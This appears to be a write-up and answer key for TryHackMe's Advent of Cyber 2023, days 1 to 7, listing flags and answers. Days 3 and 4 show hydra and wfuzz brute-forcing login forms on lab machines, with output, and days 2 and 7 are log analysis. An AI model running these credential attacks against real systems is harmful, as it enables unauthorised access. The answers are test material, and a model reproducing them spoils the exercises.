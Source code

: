 # [Day 1] Machine learning Chatbot, tell me, if you're really safe?
+ What is McGreedy's personal email address? `t.mcgreedy@antarcticrafts.thm`
+ What is the password for the IT server room door? `BtY2S02`
+ What is the name of McGreedy's secret project? `Purple Snow`
+ If you enjoyed this room, we invite you to join our Discord server for ongoing support, exclusive tips, and a community of peers to enhance your Advent of Cyber experience `No answer needed`

# [Day 2] Log analysis O Data, All Ye Faithful
+ Open the notebook "Workbook" located in the directory "4_Capstone" on the VM. Use what you have learned today to analyse the packet capture. `No Answer Needed`
```python
import pandas as pd
df = pd.read_csv('network_traffic.csv')
df.count() 
df.groupby(['Source']).size() 
df.groupby(['Protocol']).size()
```
+ How many packets were captured (looking at the PacketNumber)? `100`
+ What IP address sent the most amount of traffic during the packet capture? `10.10.1.4`
+ What was the most frequent protocol? `ICMP`
+ If you enjoyed today's task, check out the Intro to Log Analysis room. `No Answer Needed`

# [Day 3] Brute-forcing Hydra is Coming to Town
+ Using crunch and hydra, find the PIN code to access the control system and unlock the door. What is the flag? `THM{pin-code-brute-force}`
    - create list of password using crunch
    ```bash
    crunch 3 3 0123456789ABCDEF -o 3digits.txt
    Crunch will now generate the following amount of data: 16384 bytes
    0 MB
    0 GB
    0 TB
    0 PB
    Crunch will now generate the following number of lines: 4096 

    crunch: 100% completed generating output
    ```
    - brute - force the machine
    ```bash
    hydra -l '' -P 3digits.txt -f -v 10.10.215.76 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
    [8000][http-post-form] host: 10.10.215.76   password: 6F5
    [STATUS] attack finished for 10.10.215.76 (valid pair found)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (http://www.thc.org/thc-hydra) finished at 2023-12-04 02:15:53
    ```

+ If you have enjoyed this room please check out the Password Attacks room. `No Answer Needed`


# Task 10  [Day 4] Brute-forcing Baby, it's CeWLd outside
+ Creating Wordlist 
    ```bash 
    ┌──(lodwig㉿kali)-[~/Documents/THM/AoC2023]
    └─$ cewl -d 2 -m 5 -w passwords.txt http://10.10.121.234 --with-numbers
    CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
    
    ┌──(lodwig㉿kali)-[~/Documents/THM/AoC2023]
    └─$ cewl -d 0 -m 5 -w usernames.txt http://10.10.121.234/team.php --lowercase
    CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
    
    ┌──(lodwig㉿kali)-[~/Documents/THM/AoC2023]
    └─$ wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.121.234/login.php -d "username=FUZZ&password=FUZ2Z"
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: http://10.10.121.234/login.php
    Total requests: 9361

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================
    000006317:   302        118 L    297 W      4442 Ch     "isaias - Happiness"
    ```


+ What is the correct username and password combination? Format username:password `isaias:Happiness`
+ What is the flag? `THM{m3rrY4nt4rct1crAft$}`
+ If you enjoyed this task, feel free to check out the Web Enumeration room. `No Answer Needed`

# Task 11  [Day 5] Reverse engineering A Christmas DOScovery: Tapes of Yule-tide Past
+ How large (in bytes) is the AC2023.BAK file? `12,704`
+ What is the name of the backup program? `BackupMaster3000`
+ What should the correct bytes be in the backup's file signature to restore the backup properly? `41 43`
+ What is the flag after restoring the backup successfully?`THM{0LD_5CH00L_C00L_d00D}`
+ What you've done is a simple form of reverse engineering, but the topic has more than just this. If you are interested in learning more, we recommend checking out our x64 Assembly Crash Course room, which offers a comprehensive guide to reverse engineering at the lowest level. `No Answer Needed`

# Task 12  [Day 6] Memory corruption Memories of Christmas Past
+ If the coins variable had the in-memory value in the image below, how many coins would you have in the game?`1397772111`
+ What is the value of the final flag? `THM{mchoneybell_is_the_real_star}`
+ We have only explored the surface of buffer overflows in this task. Buffer overflows are the basis of many public exploits and can even be used to gain complete control of a machine. If you want to explore this subject more in-depth, feel free to check the Buffer Overflows room. `No Answer Needed`
+ Van Jolly still thinks the Ghost of Christmas Past is in the game. She says she has seen it with her own eyes! She thinks the Ghost is hiding in a glitch, whatever that means. What could she have seen? `No Answer Needed`

# Task 13  [Day 7] Log analysis ‘Tis the season for log chopping!
+ How many unique IP addresses are connected to the proxy server? `9`
    ```bash
    cut -d ' ' -f2 access.log | sort | uniq | wc -l
    ```
+ How many unique domains were accessed by all workstations? `111`
    ```bash
    cut -d ' ' -f3 access.log | cut -d':' -f1 | sort | uniq -c | wc -l
    ```
+ What status code is generated by the HTTP requests to the least accessed domain?`503`
    ```bash
    cut -d ' ' -f3 access.log | cut -d':' -f1 | sort | uniq -c | sort -n | head -n1
    grep "partnerservices.getmicrosoftkey.com" access.log | cut -d ' ' -f6 | uniq
    ```
+ Based on the high count of connection attempts, what is the name of the suspicious domain?`frostlings.bigbadstash.thm`
    ```bash
    ubuntu@tryhackme:~/Desktop/artefacts$ cut -d ' ' -f3 access.log | cut -d':' -f1 | sort | uniq -c | sort -nr | head -n 5
    4992 www.office.com
    4695 login.microsoftonline.com
    1860 www.globalsign.com
    1581 frostlings.bigbadstash.thm
    1554 learn.microsoft.com
    ```
+ What is the source IP of the workstation that accessed the malicious domain?`10.10.185.225`
    ```bash
    ubuntu@tryhackme:~/Desktop/artefacts$ grep "frostlings.bigbadstash.thm" access.log | cut -d ' ' -f2 | sort |uniq -c
    1581 10.10.185.225
    ```
+ How many requests were made on the malicious domain in total? `1581`
+ Having retrieved the exfiltrated data, what is the hidden flag? `THM{a_gift_for_you_awesome_analyst!}`
    ```bash
    ubuntu@tryhackme:~/Desktop/artefacts$ grep "frostlings.bigbadstash.thm" access.log | cut -d '=' -f2 | cut -d ' ' -f1 | base64 -d | grep -oE "THM{.*}"
    THM{a_gift_for_you_awesome_analyst!}
    ```
+ If you enjoyed doing log analysis, check out the Log Analysis module in the SOC Level 2 Path.`No Answer Needed`